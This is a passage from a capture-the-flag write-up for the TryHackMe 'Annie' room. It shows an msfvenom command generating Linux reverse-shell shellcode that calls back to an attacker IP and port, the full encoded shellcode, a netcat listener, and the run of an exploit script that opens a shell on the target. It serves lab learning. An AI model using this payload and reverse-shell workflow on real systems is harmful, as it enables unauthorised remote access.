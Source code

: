 We have to modify this payload a little bit. Have to change ip to target machine and our own shellcode which we can generate via this command:

```bash
┌──(ghost㉿kali)-[~/tryhackme/annie]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.87.131 LPORT=4445 -b "\x00\x25\x26" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
Final size of python file: 680 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x98\x9c\xce"
shellcode += b"\xea\xe2\x40\x85\x54\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xf2\xb5\x96\x73\x88"
shellcode += b"\x42\xda\x3e\x99\xc2\xc1\xef\xaa\xd7\xcd\xed"
shellcode += b"\x9a\x9c\xdf\xb7\xe8\x51\xd2\xd7\xc9\xd4\x47"
shellcode += b"\x0c\x88\x50\xdf\x3e\xb2\xc4\xc1\xef\x88\x43"
shellcode += b"\xdb\x1c\x67\x52\xa4\xcb\xba\x4f\x80\x21\x6e"
shellcode += b"\xf6\xf5\xb2\x7b\x08\x3e\x7b\xfa\xf5\xa0\xc5"
shellcode += b"\x91\x28\x85\x07\xd0\x15\x29\xb8\xb5\x08\x0c"
shellcode += b"\xb2\x97\x99\xce\xea\xe2\x40\x85\x54"
```

Copy this shellcode and replace in payload.

<img width="1917" height="710" alt="image 3" src="https://github.com/user-attachments/assets/13f75f5a-71f5-4cc2-bb19-35db6649ad61" />


Just setup our netcat on listning mode on port 4445:

```bash
┌──(ghost㉿kali)-[~/tryhackme/annie]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
```

Run that payload and we’ll get a reverse shell within few seconds:

```bash
┌──(ghost㉿kali)-[~/tryhackme/annie]
└─$ python2 49613.py
sending payload ...
reverse shell should connect within 5 seconds
```

<img width="1885" height="315" alt="image 4" src="https://github.com/user-attachments/assets/c2e893d1-640d-455b-ab87-be9721d3b9fd" />

We can now grab the user flag:

```bash
annie@desktop:/home/annie$ ls -la
ls -la
total 96
drwxr-xr-x 17 annie annie 4096 Mar 23  2022 .
drwxr-xr-x  3 root  root  4096 Mar 23  2022 ..
-rw-------  1 annie annie  640 Mar 23  2022 .ICEauthority
drwxr-xr-x  3 annie annie 4096 Mar 23  2022 .anydesk
-rwxrwxr-x  1 annie annie   41 Mar 23  2022 .anydesk.sh
lrwxrwxrwx  1 annie annie    9 Mar 23  2022 .bash_history -> /dev/null
-rw-r--r--  1 annie annie  220 Mar 23  2022 .bash_logout
-rw-r--r--  1 annie annie 3771 Mar 23  2022 .bashrc
drwx------  8 annie annie 4096 Mar 23  2022 .cache
drwx------  9 annie annie 4096 Mar 23  2022 .config
```